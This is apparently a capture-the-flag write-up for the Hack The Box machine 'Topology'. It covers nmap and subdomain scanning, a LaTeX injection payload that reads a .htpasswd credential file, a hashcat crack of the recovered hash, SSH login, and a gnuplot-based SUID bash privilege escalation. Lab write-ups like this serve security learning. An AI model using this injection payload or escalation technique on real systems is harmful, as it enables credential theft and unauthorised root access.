 # Topology

<img src="./img/topology-htb.jpeg">

# Recon
Default nmap Scan open ports:


```python 
nmap -Pn -sV -O 10.10.11.217
```


```python
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-17 00:44 EDT
Nmap scan report for topology.htb (10.10.11.217)
Host is up (0.12s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94%E=4%D=9/17%OT=22%CT=1%CU=41008%PV=Y%DS=2%DC=I%G=Y%TM=6506845
OS:A%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=109%TI=Z%CI=Z%II=I%TS=A)OPS
OS:(O1=M53CST11NW7%O2=M53CST11NW7%O3=M53CNNT11NW7%O4=M53CST11NW7%O5=M53CST1
OS:1NW7%O6=M53CST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN
OS:(R=Y%DF=Y%T=40%W=FAF0%O=M53CNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.79 seconds
```

From the NMAP scan, ports 80 and 22 were discoverable. So I proceeded to go to the website.

<img src="./img/site.png">

By visiting the site we can see that the domain is topology.htb. 

# Enumeration

```python
ffuf -H "Host: FUZZ.topology.htb" -u "http://topology.htb/" -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt --fs 6767 
```

```python


        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://topology.htb/
 :: Wordlist         : FUZZ: /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
 :: Header           : Host: FUZZ.topology.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response size: 6767
________________________________________________

[Status: 200, Size: 108, Words: 5, Lines: 6, Duration: 122ms]
    * FUZZ: stats
    * FUZZ: dev

```

Found two more subdomains dev , stats 

<img src="./img/dev.png">

I roamed the website to find the link LaTex Equation Generator helpful.

<img src="./img/latex.png">

Following this, I search an exploit to work on this function. However, it did not give me any credentials so I had to use the subdomain dev.topology.htb. There is a htpasswd which would give the password of the user. To exploit this the command is shown below.

<img src="./img/hacktricks.png">


```
$\lstinputlisting{/var/www/dev/.htpasswd}$
```

<img src="./img/md5.png">

The username is vdaisley. The password when passed to hash-identifier the encryption is given as md5.

To decrypt it, I used the hashcat tool.

```python
hashcat -m 1600 -a 0 hash.txt /usr/share/wordlists/rockyou.txt 
```


```python 
$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0:calculus20          
```     


When decrypted, the password is calculus20
After cracking that hash you can log in as vdaisley using ssh.


<img src="./img/ssh.png">
To get the user flag just navigate directories and cat out the user.txt.


# Priv-Esc

Priv esc is pretty interesting!
To obtain root status we must find exploit pspy86. Gnuplot uses plt files.
From uploading the file using wget, I managed to make it executable and so I was able to run it.

<br>

<img src="./img/pspy.png">

The following command made a plt file inside a directory and with the statement system chmod u+s. Bash -p ran the command and made me root. 



<img src="./img/priv.png">

From there I was able to switch directories and was able to cat out the root.txt


